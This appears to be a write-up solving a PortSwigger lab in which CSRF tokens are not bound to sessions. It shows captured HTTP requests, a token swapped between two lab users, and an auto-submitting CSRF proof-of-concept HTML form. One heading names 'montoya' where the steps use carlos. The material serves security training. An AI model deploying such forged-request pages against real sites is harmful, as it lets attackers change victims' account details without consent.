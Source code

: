 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4bc321cd-61f3-450a-8e7b-dcdf487ba19c)


## Overview :

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack. 

Faulty appplication logic might look like,

```python
def validate_token():
 if request.csrf_token:
 if (request.csrf_token in valid_csrf_tokens):
 pass
 else:
 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action():
 validate_token()
 ```

## Solution :

If the csrf token is not tied to a user's session, then we can **provide any other valid csrf token of other user**. Reason behind is that the server only checks if the token is valid and not checking whether the token  belongs to that user or not.

**Let's now login as wiener & get his csrf token -**

When we update email of wiener, we can see the csrf token of wiener in the request.

```http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=9PB8Veq3lkJHgs2D4HZnfvUKuJOGvxnd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=wiener%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```
- Wiener's csrf token - `6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4`  

**Now we can login as montoya to get her csrf token -**

Login to carlos's account in a incognito tab.

```http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP
```

- Carlos's csrf token - `V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP`

Now we should try to change the value of carlos's csrf token & replace it with wiener's.

```
http
POST /my-account/change-email HTTP/2
Host: 0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net
Referer: https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```

Now generate CSRF POC and deliver it to victim via exploit server.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab100cd04c72c3b82e93e0b0079000e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Thus we solved the lab,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/928e874e-5037-4f39-8342-03fe0b4f6acc)









 
 
